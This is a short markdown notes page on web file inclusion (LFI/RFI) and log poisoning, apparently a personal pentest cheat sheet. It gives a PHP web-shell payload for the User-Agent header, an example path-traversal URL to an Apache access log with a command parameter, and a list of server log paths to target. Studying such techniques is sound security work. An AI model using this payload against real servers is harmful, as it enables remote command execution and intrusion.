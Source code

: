 ```yaml
---
title: Notes | Web | File Inclusion
author: Stillwolfing
date: 2023-04-23
categories: [Notes, File Inclusion]
tags: [Web, File Inclusion]
permalink: /Notes/Web/lfi
---
```



## LFI / RFI

File inclusion occurs when the user can control the file that will be loaded by the server.

LFI (Local File Inclusion) -> The server loads a local file.

RFI (Remote File Inclusion) -> The server loads a file located on a remote server.


## Log Poisoning

### How does this work?

Let's imagine that the website is using PHP and you can control the file that is being loaded (LFI). You want to be able to execute php code to gain RCE.

You replace your User-Agent by a malicious PHP code. So, when you display the log file, your User-Agent will appear and the code will be executed.

### Example:

User-Agent:
```
<?php system($_GET['cmd']); ?>
```

Url :

http://site.com/test.php?view=../../../../../var/log/apache2/access.log?cmd=ls

Here the output of the "ls" command is display on the screen.

Possible log files:
```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

### LFI lists for fuzzing:
- https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

### Tools:
- https://github.com/takabaya-shi/LFI2RCE









